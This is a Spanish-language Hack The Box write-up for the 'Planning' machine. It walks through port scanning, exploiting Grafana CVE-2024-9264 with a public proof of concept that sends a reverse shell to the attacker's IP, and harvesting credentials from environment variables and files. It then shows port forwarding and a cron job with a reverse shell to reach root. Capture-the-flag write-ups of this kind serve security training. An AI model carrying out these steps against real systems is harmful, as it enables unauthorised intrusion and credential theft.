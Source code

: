 ```yaml
---
layout: post
title: "Planning"
date: 2024-04-05 17:04:54 +0100
tags: ["OS Command Injection", "Brute Force"]
categories: ["Linux", Medium]
image: "https://htb-mp-prod-public-storage.s3.eu-central-1.amazonaws.com/avatars/c9efb253e7d1d9b407113e11afdaa905.png"
---
```


Enumeración de puertos

```java
sudo nmap -sC -sV -p22,80 -Pn -n --open planning.htb
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-08-13 18:53 CEST
Nmap scan report for planning.htb (10.10.11.68)
Host is up (0.050s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 62:ff:f6:d4:57:88:05:ad:f4:d3:de:5b:9b:f8:50:f1 (ECDSA)
|_  256 4c:ce:7d:5c:fb:2d:a0:9e:9f:bd:f5:5c:5e:61:50:8a (ED25519)
80/tcp open  http    nginx 1.24.0 (Ubuntu)
|_http-server-header: nginx/1.24.0 (Ubuntu)
|_http-title: Edukate - Online Education Website
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.86 seconds
```

Enumeración de directorios

![](/assets/machines/planning.htb/images/4bb00001-5296-4f5f-849a-507e6cf826c3.webp)

Iniciar sesión Granfana

![](/assets/machines/planning.htb/images/850dc59b-4ae4-44c1-b49d-0df3e8d6542e.webp)

Versión Grafana.

![](/assets/machines/planning.htb/images/e3d1308e-1a69-4d8b-8f80-66450fa0e8db.webp)

La versión de grafana v11.0.0 es vulnerable al CVE-2024-9264.

[z3k0sec/CVE-2024-9264-RCE-Exploit: Grafana RCE exploit (CVE-2024-9264)](https://github.com/z3k0sec/CVE-2024-9264-RCE-Exploit?tab=readme-ov-file#description)

Establecer una reverse shell.

```bash
$ python poc.py --url http://grafana.planning.htb --username admin --password 0D5oT70Fq13EvB5r --reverse-ip 10.10.14.115 --reverse-port 9000
[SUCCESS] Login successful!
Reverse shell payload sent successfully!
Set up a netcat listener on 9000
```

![](/assets/machines/planning.htb/images/62132e13-564c-45d2-a405-2a1a9cbe6537.webp)

Una vez dentro somos `root` pero de un contenedor de Docker.

Contraseña encontrada: `RioTecRANDEntANT!` usando el comando `env`.

![](/assets/machines/planning.htb/images/8566591c-8668-4594-a609-62deb56a3afc.webp)

Usamos las credenciales `enzo:RioTecRANDEntANT!` para iniciar sesión por SSH.

El fichero `/var/www/web/enroll.php` contiene las credenciales root para la base de datos `root:EXTRapHY`. Pero no nos van a servir para nada.

![](/assets/machines/planning.htb/images/841301e1-95b8-4d17-b42e-f40aa96a83ba.webp)

Por otra parte, en `/opt/crontabs/crontab.db` encontraremos unas credenciales `P4ssw0rdS0pRi0T3c`.
![](/assets/machines/planning.htb/images/7e213360-6b2d-4b76-a6cc-9036374d8d7d.webp)

Hay un puerto 8000 abierto.
![](/assets/machines/planning.htb/images/0c469827-62b5-403f-8df2-fec2ba6d7849.webp)

Usar Port Forwarding para llegar al puerto 8000 desde la la máquina atacante.
![](/assets/machines/planning.htb/images/4548ff69-7a59-4293-8186-d3fbd273d2bf.webp)

Iniciar sesión con las credenciales `root:P4ssw0rdS0pRi0T3c`.

![](/assets/machines/planning.htb/images/99b1d780-fe1a-4431-ace1-29bda1c9080b.webp)
Crear un job con una reverse shell.
![](/assets/machines/planning.htb/images/594c54d7-fe40-49ce-9a75-49ef56fb98f1.webp)

Clicar en "Run now".

![](/assets/machines/planning.htb/images/107c447b-78bf-49ac-bc7f-f0f2f10adbd7.webp)

Root txt
![](/assets/machines/planning.htb/images/7aa28a64-ab2b-4715-910b-3a20372f8aed.webp)

